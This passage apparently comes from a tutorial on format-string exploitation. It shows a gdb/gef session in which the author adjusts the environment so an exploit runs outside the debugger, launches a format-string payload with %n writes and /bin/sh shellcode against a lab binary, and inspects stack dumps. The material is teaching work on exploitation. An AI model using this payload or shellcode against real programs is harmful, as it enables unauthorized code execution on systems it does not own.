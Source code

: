 Again, there is a problem that this exploit doesn't work ouside gdb. Correct it. Use `unset environment LINES`, `unset environment COLUMNS`.

```bash
gef➤  unset environment LINES
gef➤  unset environment COLUMNS
gef➤  b *main + 102
Breakpoint 1 at 0x804921c

gef➤  r $(python -c 'print "\xac\xcf\xff\xff" + "\xae\xcf\xff\xff" + "%52958u" + "%6$n" + "%12569u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xac\xcf\xff\xff" + "\xae\xcf\xff\xff" + "%52958u" + "%6$n" + "%12569u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
��������

gef➤  x/106wx $esp - 0x100
0xffffcedc:	0x0804920b	0xffffcef8	0xffffd278	0x000000c8
0xffffceec:	0x080491d4	0x00000000	0x00000000	0xffffcfac
0xffffcefc:	0xffffcfae	0x39323525	0x25753835	0x256e2436
0xffffcf0c:	0x36353231	0x37257539	0x0beb6e24	0x31c0315b
0xffffcf1c:	0xb0d231c9	0xe880cd0b	0xfffffff0	0x6e69622f
0xffffcf2c:	0x0068732f	0x00000000	0x00000000	0x00000000
0xffffcf3c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf4c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf5c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf6c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf7c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf8c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf9c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfac:	0xffffcee6	0x00000000	0x00000000	0x00000000
0xffffcfbc:	0x00000000	0xffffcfe0	0x00000000	0x00000000
0xffffcfcc:	0xf7ddbee5	0xf7fa8000	0xf7fa8000	0x00000000
0xffffcfdc:	0xf7ddbee5	0x00000002	0xffffd074	0xffffd080
0xffffcfec:	0xffffd004	0xf7fa8000	0x00000000	0xffffd058
0xffffcffc:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffd00c:	0xf7fa8000	0x00000000	0x6653c629	0x22b14039
0xffffd01c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd02c:	0x080490a0	0x00000000	0xf7fe7cd4	0xf7fe2410
0xffffd03c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd04c:	0x080490d6	0x080491b6	0x00000002	0xffffd074
0xffffd05c:	0x08049220	0x08049290	0xf7fe2410	0xffffd06c
0xffffd06c:	0x0000001c	0x00000002	0xffffd233	0xffffd278
0xffffd07c:	0x00000000	0xffffd2b0
gef➤  
```

The address changed again.
```bash
gef➤  x/106wx $esp - 0x106
0xffffced6:	0x1349f7ff	0x920bf7e1	0xcef80804	0xd278ffff
0xffffcee6:	0x00c8ffff	0x91d40000	0x00000804	0x00000000
0xffffcef6:	0xcfdc0000	0xcfdeffff	0x3525ffff	0x38353932
0xffffcf06:	0x24362575	0x3231256e	0x75393635	0x6e243725
0xffffcf16:	0x315b0beb	0x31c931c0	0xcd0bb0d2	0xfff0e880
0xffffcf26:	0x622fffff	0x732f6e69	0x00000068	0x00000000
0xffffcf36:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf46:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf56:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf66:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf76:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf86:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf96:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfa6:	0x00000000	0x00000000	0x00000000	0x00000000
```